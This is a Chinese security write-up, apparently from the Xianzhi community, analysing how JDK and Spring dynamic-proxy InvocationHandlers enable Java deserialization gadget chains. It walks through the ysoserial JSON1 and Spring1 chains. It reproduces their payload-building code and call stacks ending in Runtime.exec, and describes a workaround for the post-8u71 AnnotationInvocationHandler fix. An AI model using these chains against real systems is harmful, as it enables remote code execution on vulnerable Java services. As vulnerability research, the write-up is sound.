








# 盘点JDK下的动态代理在反序列化链中的利用原理-先知社区

> **来源**: https://xz.aliyun.com/news/16840  
> **文章ID**: 16840

---

* **CompositeInvocationHandlerImpl**：jdk自带，能根据不同的方法所属的类，选择不同的`InvocationHandler`，可以看作`InvocationHandler`的代理。
* **AnnotationInvocationHandler**：（指定一个方法返回指定的对象）同样jdk自带，也是反序列化gdaget的常客了，它在JSON1中承担的责任实际类似一个"垃圾桶"，当调用`CompositeData#getCompositeType()`方法时可以返回一个`CompositeType`实例，避免报错抛异常。
* **JdkDynamicAopProxy**：来自spring-aop依赖，反射调用方法。
* **AutowireUtils$ObjectFactoryDelegatingInvocationHandler**：来自spring-beans依赖，反射调用方法，对象中`this.objectFactory.getObject()`中获取
* **JSONObject**: 来自fastjson依赖，能够控制getter方法调用返回的对象

## 实例

### JSON1链

```
Object payload = Gadgets.createTemplatesImpl(command);
                Class[] ifaces = new Class[]{Templates.class};
                // we need to make payload implement composite data
        // it's very likely that there are other proxy impls that could be used
        AdvisedSupport as = new AdvisedSupport();
        as.setTarget(payload);
        InvocationHandler delegateInvocationHandler = (InvocationHandler) Reflections.newInstance("org.springframework.aop.framework.JdkDynamicAopProxy", as);
        InvocationHandler cdsInvocationHandler = Gadgets.createMemoizedInvocationHandler(Gadgets.createMap("getCompositeType", rt));
        InvocationHandler invocationHandler = (InvocationHandler) Reflections.newInstance("com.sun.corba.se.spi.orbutil.proxy.CompositeInvocationHandlerImpl");
        ((Map) Reflections.getFieldValue(invocationHandler, "classToInvocationHandler")).put(CompositeData.class, cdsInvocationHandler);
        Reflections.setFieldValue(invocationHandler, "defaultHandler", delegateInvocationHandler);
        final CompositeData cdsProxy = Gadgets.createProxy(invocationHandler, CompositeData.class, ifaces);
        JSONObject jo = new JSONObject();
        Map m = new HashMap();
        m.put("t", cdsProxy);
```


图源自：<https://mp.weixin.qq.com/s/gl8lCAZq-8lMsMZ3_uWL2Q>

简单分析一下JSON1的流程吧，更好的理解动态代理的用法

JSON1这条链子来源于ysoserial框架

<https://github.com/frohoff/ysoserial>

首先看一下这条链子的调用栈：

```
/**
 *
 * A bit more convoluted example
 *
 * com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties()
 * java.lang.reflect.Method.invoke(Object, Object...)
 * org.springframework.aop.support.AopUtils.invokeJoinpointUsingReflection(Object, Method, Object[])
 * org.springframework.aop.framework.JdkDynamicAopProxy.invoke(Object, Method, Object[])
 * $Proxy0.getOutputProperties()
 * java.lang.reflect.Method.invoke(Object, Object...)
 * org.apache.commons.beanutils.PropertyUtilsBean.invokeMethod(Method, Object, Object[])
 * org.apache.commons.beanutils.PropertyUtilsBean.getSimpleProperty(Object, String)
 * org.apache.commons.beanutils.PropertyUtilsBean.getNestedProperty(Object, String)
 * org.apache.commons.beanutils.PropertyUtilsBean.getProperty(Object, String)
 * org.apache.commons.beanutils.PropertyUtils.getProperty(Object, String)
 * net.sf.json.JSONObject.defaultBeanProcessing(Object, JsonConfig)
 * net.sf.json.JSONObject._fromBean(Object, JsonConfig)
 * net.sf.json.JSONObject.fromObject(Object, JsonConfig)
 * net.sf.json.JSONObject(AbstractJSON)._processValue(Object, JsonConfig)
 * net.sf.json.JSONObject._processValue(Object, JsonConfig)
 * net.sf.json.JSONObject.processValue(Object, JsonConfig)
 * net.sf.json.JSONObject.containsValue(Object, JsonConfig)
 * net.sf.json.JSONObject.containsValue(Object)
 * javax.management.openmbean.TabularDataSupport.containsValue(CompositeData)
 * javax.management.openmbean.TabularDataSupport.equals(Object)
 * java.util.HashMap<K,V>.putVal(int, K, V, boolean, boolean)
 * java.util.HashMap<K,V>.readObject(ObjectInputStream)
 *
 * @author mbechler
 *
 */
```

这条链子同样是因为`json-lib`这个json库，在反序列化过程中导致的getter方法调用导致的反序列化漏洞Gadgets，这里我们主要关注这条链子使用动态代理的方式解决问题的思想

JSON1：

```
public static Map makeCallerChain ( Object payload, Class... ifaces ) throws OpenDataException, NoSuchMethodException, InstantiationException,
        IllegalAccessException, InvocationTargetException, Exception, ClassNotFoundException {
    CompositeType rt = new CompositeType("a", "b", new String[] {
        "a"
    }, new String[] {
        "a"
    }, new OpenType[] {
        javax.management.openmbean.SimpleType.INTEGER
    });
    TabularType tt = new TabularType("a", "b", rt, new String[] {
        "a"
    });
    TabularDataSupport t1 = new TabularDataSupport(tt);
    TabularDataSupport t2 = new TabularDataSupport(tt);

    // we need to make payload implement composite data
    // it's very likely that there are other proxy impls that could be used
    AdvisedSupport as = new AdvisedSupport();
    as.setTarget(payload);
    InvocationHandler delegateInvocationHandler = (InvocationHandler) Reflections.newInstance("org.springframework.aop.framework.JdkDynamicAopProxy", as);
    InvocationHandler cdsInvocationHandler = Gadgets.createMemoizedInvocationHandler(Gadgets.createMap("getCompositeType", rt));
    InvocationHandler invocationHandler = (InvocationHandler) Reflections.newInstance("com.sun.corba.se.spi.orbutil.proxy.CompositeInvocationHandlerImpl");
    ((Map) Reflections.getFieldValue(invocationHandler, "classToInvocationHandler")).put(CompositeData.class, cdsInvocationHandler);
    Reflections.setFieldValue(invocationHandler, "defaultHandler", delegateInvocationHandler);
    final CompositeData cdsProxy = Gadgets.createProxy(invocationHandler, CompositeData.class, ifaces);

    JSONObject jo = new JSONObject();
    Map m = new HashMap();
    m.put("t", cdsProxy);
    Reflections.setFieldValue(jo, "properties", m);
    Reflections.setFieldValue(jo, "properties", m);
    Reflections.setFieldValue(t1, "dataMap", jo);
    Reflections.setFieldValue(t2, "dataMap", jo);
    return Gadgets.makeMap(t1, t2);
}
```

这里在JSONObject中包裹的是`cdsProxy`，其为`CompositeData`对象，其通过调用`Gadgets.createProxy`创建的一个代理对象



对应Proxy对象的InvocationHandler为`CompositeInvocationHandlerImpl`实现类，用来代理了多个接口，例如这里的`CompositeData`以及`TemplateImpl`类

在进行反序列化调用时，该json组件将会触发所有在这两个代理的类中存在的getter方法

特别的，其中因为在`CompositeData`类中的`getCompositeType`这一个getter方法调用将会抛出异常，造成反序列化利用过程中退出，造成利用失败，这里通过`Gadgets.createMemoizedInvocationHandler`创建了一个InvocationHandler对象类将其保存在了`CompositeInvocationHandlerImpl`的`classToInvocationHandler`属性中，用来处理在调用该getter调用返回我们精心构造的对象避免错误的发生，那么这一步是如何生效的呢？后面会介绍

同样，这里也创建了一个`JdkDynamicAopProxy`对象实例来代理除了`CompositeData`外的其他类的getter方法调用

一步一步来，首先看一看在getter方法反射调用过程中，第一个代理类`CompositeInvocationHandlerImpl`是如何处理的



在进行反射调用时，将会调用`CompositeInvocationHandlerImpl#invoke`方法

1. 首先会获取待调用方法所属的类，通过`method.getDeclaringClass()`
2. 在获取了所属类之后从`classToInvocationHandler`中获取对应类是否代理了特殊处理的InvocationHandler对象
3. 若存在特殊代理的`InvocationHandler`对象，则将方法调用传递给它的invoke方法进行处理
4. 若不存在该对象，且`defaultHandler`这一默认的Handler也存在的话，则交由它进行处理

**根据流程来看，**`CompositeInvocationHandlerImpl`**这一个Handler主要的作用是用来对Method方法调用进行分流处理**

接下来看看代理`CompositeData`类的Handler，这是一个`AnnotationInvocationHandler`的实现类


其invoke方法：



其中var2为传入的待调用的getter方法，首先获取它的方法名为`var4`，在switch-case语句中的默认分支中，将会从`memberValues`属性中获取对应方法名返回的预定义的对象，之后直接进行返回，依靠着这样的方式能够避免`getCompositeType`调用导致的错误

**根据流程来看，**`AnnotationInvocationHandler`**这一个Handler主要的作用是用来对特定Method方法的返回进行预定义，避免出现未知错误**

接下来再瞅一瞅处理其他类所用到的`JdkDynamicAopProxy`

在创建该类对象是，传入的是一个`AdvisedSupport`对象参数，将其保存在advised属性中，特别的在该对象的`targetSource`属性中，存在着恶意的TemplateImpl对象


在getter方法调用时，触发其invoke方法



1. 首先是从`this.advised.targetSource`属性中获取到`TargetSource`对象
2. 之后调用`getTarget`方法后去具体的对象，这里是恶意的TemplateImpl对象
3. 最后调用`AopUtils.invokeJoinpointUsingReflection`进行获取对象的getter方法的反射调用

**根据流程来看，**`JdkDynamicAopProxy`**这一个Handler主要的作用是用来进行方法的反射调用**

以上大致分析了JSON1链中的动态代理使用的三个类，以及各个类所能够存在的作用

### Spring1链

这条链子同样来自于ysoserial项目

```
public Object getObject(final String command) throws Exception {
    final Object templates = Gadgets.createTemplatesImpl(command);

    final ObjectFactory objectFactoryProxy =
          Gadgets.createMemoitizedProxy(Gadgets.createMap("getObject", templates), ObjectFactory.class);

    final Type typeTemplatesProxy = Gadgets.createProxy((InvocationHandler)
          Reflections.getFirstCtor("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler")
             .newInstance(objectFactoryProxy), Type.class, Templates.class);

    final Object typeProviderProxy = Gadgets.createMemoitizedProxy(
          Gadgets.createMap("getType", typeTemplatesProxy),
          forName("org.springframework.core.SerializableTypeWrapper$TypeProvider"));

    final Constructor mitpCtor = Reflections.getFirstCtor("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
    final Object mitp = mitpCtor.newInstance(typeProviderProxy, Object.class.getMethod("getClass", new Class[] {}), 0);
    Reflections.setFieldValue(mitp, "methodName", "newTransformer");

    return mitp;
}
```

其核心是利用了`sun.reflect.annotation.AnnotationInvocationHandler`和`org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler`这两个代理类进行结合利用

首先看一下这条链子的调用栈：

```
/*
    Gadget chain:

       ObjectInputStream.readObject()
          SerializableTypeWrapper.MethodInvokeTypeProvider.readObject()
             SerializableTypeWrapper.TypeProvider(Proxy).getType()
                AnnotationInvocationHandler.invoke()
                   HashMap.get()
             ReflectionUtils.findMethod()
             SerializableTypeWrapper.TypeProvider(Proxy).getType()
                AnnotationInvocationHandler.invoke()
                   HashMap.get()
             ReflectionUtils.invokeMethod()
                Method.invoke()
                   Templates(Proxy).newTransformer()
                      AutowireUtils.ObjectFactoryDelegatingInvocationHandler.invoke()
                         ObjectFactory(Proxy).getObject()
                            AnnotationInvocationHandler.invoke()
                               HashMap.get()
                         Method.invoke()
                            TemplatesImpl.newTransformer()
                               TemplatesImpl.getTransletInstance()
                                  TemplatesImpl.defineTransletClasses()
                                     TemplatesImpl.TransletClassLoader.defineClass()
                                        Pwner*(Javassist-generated).<static init>
                                           Runtime.exec()

 */
```

简单分析一下整个反序列化链的流程，核心分析如何使用动态代理实现我们的目的

这条反序列化链子的入口在`org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider#readObject`方法中


其在readObject实现中，将会反射调用我们从`provider`中获取的方法

这里作者使用创建了一个`sun.reflect.annotation.AnnotationInvocationHandler`实例，用来代理`org.springframework.core.SerializableTypeWrapper$TypeProvider`类实现，将其作为`provider`属性值传入到`SerializableTypeWrapper$MethodInvokeTypeProvider`的构造方法中

当在反序列化过程中调用`provider`属性值的`getType`方法，将会触发`AnnotationInvocationHandler#invoke`调用，在这个过程中返回了我们预先定制的类对象，也即是另一个动态代理类`AutowireUtils$ObjectFactoryDelegatingInvocationHandler`



而动态代理类`AutowireUtils$ObjectFactoryDelegatingInvocationHandler`代理的接口为`Type.clas`以及`Templates.class`，将其作为getType调用的返回

回到反序列化的流程，我们在readObject中的`ReflectionUtils.findMethod`调用中，`getType`返回的是`AutowireUtils$ObjectFactoryDelegatingInvocationHandler`代理对象，因为该对象同样代理了`Template.class`，则是能够反射查找到该Method，也即是`newTransformer`

接下来来到`ReflectionUtils.invokeMethod`方法的反射调用过程，在执行代理类的`newTransformer`调用时将会触发`AutowireUtils$ObjectFactoryDelegatingInvocationHandler#invoke`调用



在这个方法中，同样存在有反射调用的实现，其object对象是从`objectFactory.getObject`获取来的

作者这里是通过再次创建一个`AnnotationInvocationHandler`实例，代理接口`ObjectFactory.class`，使得在调用`getObject`方法时，能够返回恶意的TemplateImpl对象，进行进行命令执行

**根据流程来看，**`AutowireUtils$ObjectFactoryDelegatingInvocationHandler`**这一个Handler主要的作用是用来进行方法的反射调用**

## 限制

### AnnotationInvocationHandler

在`jdk8u71-b12`之后，`AnnotationInvocationHandler`代码进行了修改，无法再代理非注解的接口方法，这就导致了`AnnotationInvocationHandler`无法再代理`CompositeData`接口，此时再调用`getCompositeType`方法就会报错。

要在高版本中稳定利用，需要替换掉`AnnotationInvocationHandler`。注意到`JdkDynamicAopProxy`的能力，容易想到再新建一个`JdkDynamicAopProxy`实例来代理`CompositeData`接口的子类（同时要求实现`Serializable`接口），并找到了一个jdk自带的`CompositeData`实现类：`javax.management.openmbean.CompositeDataSupport`。



## 参考

<https://mp.weixin.qq.com/s/gl8lCAZq-8lMsMZ3_uWL2Q>

<https://github.com/frohoff/ysoserial>
